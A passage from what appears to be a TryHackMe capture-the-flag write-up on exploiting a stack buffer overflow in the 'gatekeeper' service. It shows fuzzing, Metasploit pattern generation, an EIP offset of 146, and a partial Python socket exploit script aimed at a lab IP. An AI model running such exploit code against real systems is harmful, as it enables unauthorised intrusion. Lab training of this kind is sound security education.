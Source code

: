 ```bash
...

```

From here, I decide it would behoove me to create a virtual env with this OS and then build out an exploit locally.

However, only because I am aways on my laptop, I first want to try and see if I can just spin up OSCP_prep room.

If the OS is close, since it already has immunity and mona, I might just transfer gatekeeper there.

# Creating an exploit

Url for bof prep machine:https://tryhackme.com/room/bufferoverflowprep

(alt make your own VM)

After sending it over, I see that it prints a msg and counts the bytes I send. I will use this to create an exploit for the target.


## Finding the number of bytes it takes to crash the program.

This step is called fuzzing, I will send an increasing number bytes to this application with python, and then record when it crashes:

I find that when I send 1000 A's the system crashes. So I use metasploit to create a 1000 byte long non-repeating pattern.

```
/usr/bin/msf-pattern_create -l 1000|xclip -selection clipboard
```


I send this over with netcat an view the resaults in immunity:

I find the EIP offset at 146

![image](https://user-images.githubusercontent.com/83407557/185804854-39c58530-d554-4a69-aa8f-b82e476ccfd6.png)



This is the script I use the replicate the crash and see that I can put A's up to the offset of EIP, which I fill with B's then have ESP and beyond filled with C's

```python
#!/usr/bin/env python2
# exploit.py

import socket
import sys

# setup the Target's IP and port.
RHOST = "10.10.218.237"
RPORT = 31337

# create a TCP connection (socket)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

# The payload

padding = ""
offset = 146
overflow = "A" * offset
retn = "BBBB"
payload = "C" * (1000-146-4)
```